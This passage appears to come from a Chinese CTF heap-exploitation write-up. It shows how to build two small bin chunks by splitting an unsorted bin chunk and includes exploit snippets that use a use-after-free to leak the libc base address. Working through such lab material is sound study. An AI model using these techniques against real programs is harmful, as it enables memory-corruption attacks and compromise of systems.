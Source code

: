 ![在这里插入图片描述](https://img-blog.csdnimg.cn/58412fdbeaef4e3db7f7166362a15ab9.png)

## 利用unsorted bin构造两个small bin chunk
>当我们申请一个chunk时，如果unsorted bin里有chunk，而我们所申请的chunk大小小于unsorted bin里的chunk，那么就把unsorted bin的chunk分割，拿出我们需要的大小申请chunk，剩下的继续留在unsorted bin中，
>而如果我们申请的chunk大小大于unsorted bin中的chunk，那么就会把unsorted bin中的chunk，按照大小放入对应的bin中，之后再从top chunk中申请一个chunk。

我们可以先申请一个0x400大小的chunk，再申请一个0x300大小的chunk（防止合并），之后free  大小为0x400的chunk，再申请两次0x300大小的chunk，第一次申请的chunk会从0x400大小的chunk里切割出0x300，unsorted bin还剩0x100大小的chunk，第二次申请的chunk由于大于unsorted bin中的chunk，会将unsorted bin中的0x100大小的chunk放进small bin，我们利用同样的方法可以再次得到一个small bin的chunk，这样我们就得到了两个small bin chunk。

申请一个0x400大小的chunk，再申请一个0x300大小的chunk（防止合并），可以看到tcachebin中的chunk没有被拿走。

	add(1,4,'Chunk_1')
	add(13,3,'Chunk_13')
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/4bc407062a4647f0ab2256d8f7547c82.png)
我们free chunk1，因为chunk1大小为0x400，tcachebin中0x400大小的chunk已满了7个，所以进入unsorted bin，利用UAF泄露libc基地址

	free(1)
	show(1)
	libc_base = u64(ru('\x0A').strip('\x0A').ljust(8,'\x00')) - 0x1E4CA0
	lg('libc_base',libc_base)
	dbg()

![在这里插入图片描述](https://img-blog.csdnimg.cn/6136120230264abc9181165746e485f1.png)
申请0x300大小的chunk，在unsortedbin里寻找大小为0x300的chunk，分割unsortedbin 里的chunk，拿出0x300，还剩0x100
	
	add(13,3,'Chunk_13')
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/beb46b48f5e84c63bcd8d4825b23d04b.png)

在unsortedbin里寻找大小为0x300的chunk，此时unsortedbin中chunk只有0x100大小，0x100的chunk进入smallbin，从top chunk中分配0x300大小的chunk，成功制造一个small bin chunk

	add(13,3,'Chunk_13')
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/e93cba834b9e405d828b6a1a0bbc1ea9.png)
利用同样方法再构造一个small bin chunk

 
	add(2,4,'Chunk_2')
	add(13,4,'Chunk_13')
	
	#dbg()
	
	free(2)
	
	#dbg()
	
	add(13,3,'Chunk_13')
	add(13,3,'Chunk_13')
	
